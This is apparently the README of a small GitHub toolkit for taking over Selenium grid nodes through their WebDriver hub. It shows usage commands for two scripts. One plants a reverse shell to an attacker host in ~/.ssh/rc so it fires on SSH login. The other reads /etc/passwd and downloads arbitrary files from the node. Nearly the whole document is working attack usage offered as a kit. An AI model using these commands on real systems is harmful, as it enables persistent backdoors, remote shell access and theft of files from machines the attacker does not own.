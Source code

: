 # selenium-node-takeover-kit
A collection of selenium tests that might aid it takeover of a selenium node

## upload_file.py 
Example of adding a reverse shell on ssh login. 
    python3 examples/upload_file.py -u http://selenium-hub:4444/wd/hub -r ~/.ssh/rc -d "bash -c 'sh -i >& /dev/tcp/attack/4444 0>&1' &"

## download_file.py
Example of  concatenating the passwd file
    python3 examples/download_file.py -u http://selenium-hub:4444/wd/hub -r /etc/passwd
    
Example of downloading a small file
    python3 examples/download_file.py -u http://selenium-hub:4444/wd/hub -r /bin/ls -l ./test_ls
